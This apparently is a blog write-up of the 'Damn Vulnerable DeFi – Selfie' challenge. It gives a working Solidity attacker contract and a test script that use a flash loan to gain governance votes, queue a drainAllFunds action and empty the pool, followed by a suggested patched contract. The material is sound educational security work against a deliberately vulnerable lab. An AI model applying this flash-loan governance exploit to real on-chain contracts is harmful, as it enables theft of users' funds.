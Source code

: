 ```yaml
---
layout: post
title: Damn Vulnerable DeFi - Selfie
---
```


## Description
A new cool lending pool has launched! It's now offering flash loans of DVT tokens.

Wow, and it even includes a really fancy governance mechanism to control it.

What could go wrong, right ?

You start with no DVT tokens in balance, and the pool has 1.5 million. Your objective: take them all.

## Solution
This exploit involves two contracts. On the one hand, we have `SelfiePool`. It's a flash loaning contract
with an additional function to drain all funds, and `drainAllFunds` is guarded behind a modifier. The only caller that can drain funds is the governance contract.

On the otherhand we have the governance contract, `SimpleGovernance`. As we shall see, perhaps it's a little too simple! Performing a governance action is a simple process: if we have enough votes then we can queue an
action. After a fixed amount of time the action is executable by anybody.

Let's take out a flash loan so we can accumulate enough votes to queue an action. Once the action is
queued no one can stop us! They just stare in dismay as the clock ticks down to the moment we execute the action and drain the funds...

The steps are
1. Take out a flash loan of the governance token
2. Queue an action to call `drainAllFunds`
3. Twiddle our thumbs while we wait
4. Execute the action

```
contract SelfieAttacker {
    SimpleGovernance private simpleGovernance;
    SelfiePool private selfiePool;
    DamnValuableTokenSnapshot private dvtSnapshot;
    address private attacker;
    uint256 actionId;

    function attackStep1(address _selfiePool, address _simpleGovernance, address _dvtSnapshot) external {
        simpleGovernance = SimpleGovernance(_simpleGovernance);
        selfiePool = SelfiePool(_selfiePool);
        dvtSnapshot = DamnValuableTokenSnapshot(_dvtSnapshot);
        attacker = msg.sender;
        selfiePool.flashLoan(dvtSnapshot.balanceOf(_selfiePool));
    }

    function attackStep2() external {
        simpleGovernance.executeAction(actionId);
    }

    function receiveTokens(address token, uint256 amount) external {
        dvtSnapshot.snapshot();
        actionId = simpleGovernance.queueAction(
            address(selfiePool),
            abi.encodeWithSelector(selfiePool.drainAllFunds.selector, attacker),
            0
        );
        dvtSnapshot.transfer(address(selfiePool), amount);
    }
}
```

We execute `attackStep1` first to take out the flash loan and queue an action to drain all the funds. After some time has elapsed we can execute `attackStep2`.

```
it('Exploit', async function () {
    const SelfieAttackerFactory = await ethers.getContractFactory('SelfieAttacker', deployer);  
    const selfieAttacker = await SelfieAttackerFactory.deploy();
    await selfieAttacker.connect(attacker).attackStep1(
        this.pool.address,
        this.governance.address,
        this.token.address
    );
    await ethers.provider.send("evm_increaseTime", [2 * 24 * 60 * 60]);
    await selfieAttacker.connect(attacker).attackStep2();
});
```

## Patched Contract
There isn't an easy way to patch this contract. On-chain governance is hard! There are many
possibilities, but one option could be to drain the funds to a trusted address. In this case
the attacker would still be able to drain the funds, but not capture them.

Let's pretend that `0x72F0Fc10630af02d1a935fA6BD1B4EE89b46A083` is a [Gnosis Safe](https://gnosis-safe.io/) under the control of trusted signers. We could hardcode this address as the receiver.

```
contract SelfiePoolV2 is ReentrancyGuard {

    using Address for address;

    ERC20Snapshot public token;
    SimpleGovernance public governance;

    event FundsDrained(address indexed receiver, uint256 amount);

    modifier onlyGovernance() {
        require(msg.sender == address(governance), "Only governance can execute this action");
        _;
    }

    constructor(address tokenAddress, address governanceAddress) {
        token = ERC20Snapshot(tokenAddress);
        governance = SimpleGovernance(governanceAddress);
    }

    function flashLoan(uint256 borrowAmount) external nonReentrant {
        uint256 balanceBefore = token.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");
        
        token.transfer(msg.sender, borrowAmount);        
        
        require(msg.sender.isContract(), "Sender must be a deployed contract");
        msg.sender.functionCall(
            abi.encodeWithSignature(
                "receiveTokens(address,uint256)",
                address(token),
                borrowAmount
            )
        );
        
        uint256 balanceAfter = token.balanceOf(address(this));

        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }

    function drainAllFunds(address) external onlyGovernance {
        uint256 amount = token.balanceOf(address(this));
        token.transfer(0x72F0Fc10630af02d1a935fA6BD1B4EE89b46A083, amount);
        
        emit FundsDrained(0x72F0Fc10630af02d1a935fA6BD1B4EE89b46A083, amount);
    }
}
```
